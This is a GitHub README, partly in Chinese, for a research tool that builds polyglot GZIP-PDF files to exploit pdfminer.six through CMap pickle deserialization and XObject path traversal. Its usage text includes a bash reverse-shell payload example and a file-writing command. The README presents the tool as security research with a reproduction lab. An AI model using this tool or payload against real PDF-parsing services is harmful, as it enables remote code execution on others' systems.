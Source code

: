 # Pdfminer CMap Generator

A research tool to build polyglot GZIP-PDF files, with exploiting pdfminer CMap loading. Sharing reproduction and security research

## Introduce

**Background**

- pdfminer.six <= ALL
- 使用 pdfminer 进行 PDF 解析应用程序

**Functions**

- 生成恶意文件 PDF、Ployglot - GZIP and PDF；PDF 生成支持两种触发方式：CMap 加载和 XObject 路径穿越
- 文件验证功能
- 便于复现的 Docker 环境

## Usage
```
Usage: python3 pcg.py [options] --help
       python3 pcg.py build -t gzip -p "echo 111 >> uploads/1.txt"
       python3 pcg.py build -t pdf -ep "/proc/self/cwd/uploads/l1"

positional arguments:
  {build,validate,run}
    build               build a polyglot gzip-pdf file
    validate            Validate file

options:
  -h, --help            show this help message and exit
```

build

```
usage:  build [-h] -t {gzip,pdf} [-ptt {cmap,traversal}] [-ep ENCODING_PATH] [-p PAYLOAD] [-o OUTPUT]

options:
  -h, --help            show this help message and exit
  -t {gzip,pdf}, --type {gzip,pdf}
                        Select GZIP or PDF
  -ptt {cmap,traversal}, --pdf-trigger-type {cmap,traversal}
                        PDF trigger type: cmap (CMap loading) or traversal (XObject traversal)
  -ep ENCODING_PATH, --encoding-path ENCODING_PATH
                        PDF - Absolute path, but no suffix, Example: /proc/self/cwd/uploads/l1
  -p PAYLOAD, --payload PAYLOAD
                        GZIP - CMap Pickle.loads Payload, Example: bash -c 'bash -i >& /dev/tcp/ip/5555 0>&1'
  -o OUTPUT, --output OUTPUT
```

validate

```
l1n@servers:~/docker$ python3 github/Pdfminer_CMap_Generator/src/pcg.py validate --help
usage:  validate [-h] [-f FILE]

options:
  -h, --help            show this help message and exit
  -f FILE, --file FILE  Plotgloy gzip-pdf file path
```

## Research
[研究文章](https://github.com/L1nq0/Pdfminer-CMap-Generator/blob/master/research/Pdfminer-Vulnerability-Research.md)

[复现环境](https://github.com/L1nq0/Pdfminer-CMap-Generator/tree/master/research/lab/pdf2text_debug)

## References

https://github.com/pdfminer/pdfminer.six

https://blog.wm-team.cn/index.php/archives/86/

https://www.cnblogs.com/L1nq/p/19124085

